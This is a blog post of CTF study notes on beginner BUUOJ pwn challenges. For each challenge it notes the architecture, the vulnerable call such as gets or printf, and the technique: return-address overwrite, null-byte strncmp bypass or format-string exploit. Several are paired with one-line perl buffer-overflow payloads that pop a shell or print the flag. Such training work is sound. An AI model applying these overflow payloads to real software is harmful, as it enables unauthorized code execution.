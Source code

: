 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn 入门"
date:   2020-07-16 00:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. rip
   1. `system("/bin/sh")` found
   2. segfault???
3. warmup_csaw_2016
   1. amd64, C `gets` and `system("cat flag.txt")` found
   2. overwrite return address
   3. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. pwn1_sctf_2016
   1. x86, C `gets` and `'system("cat flag.txt")'` found
   2. overwrite return address
   3. `std::string`: the source replaces any appearance of `I` with `you` in string input
   4. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. ciscn_2019_n_1
   1. amd64, C `gets`
   2. overwrite a variable and bypass
   3. floating point number comparison
      1. more info about `xmm0` [SSE registers](https://en.wikibooks.org/wiki/X86_Assembly/SSE#Registers):
         1. [saturation arithmetic](https://en.wikipedia.org/wiki/Saturation_arithmetic) and [clamping](https://en.wikipedia.org/wiki/Clamping_(graphics))
         2. SIMD instructions
   4. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. ciscn_2019_c_1: [post]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
7. [OGeek2019]babyrop
   1. x86, C `read`
   2. bypass `strncmp` using `\x00` to truncate string
   3. [script]({{ site.url }}/assets/OGeek2019_babyrop.py)
8. ciscn_2019_en_2: the same as [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
9. get_started_3dsctf_2016:
   1. x86, c `gets`, NX enabled
   2. `get_flag` and peaceful exit
   3. [script]({{ site.url }}/assets/get_started_3dsctf_2016.py)
10. [第五空间2019 决赛]PWN5:
   1. x86, NX enabled, canary found, `printf`
   2. format string exploit
   3. [script]({{ site.url }}/assets/5space_pwn5.py)
   4. [Reference](https://wooyun.js.org/drops/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B.html)
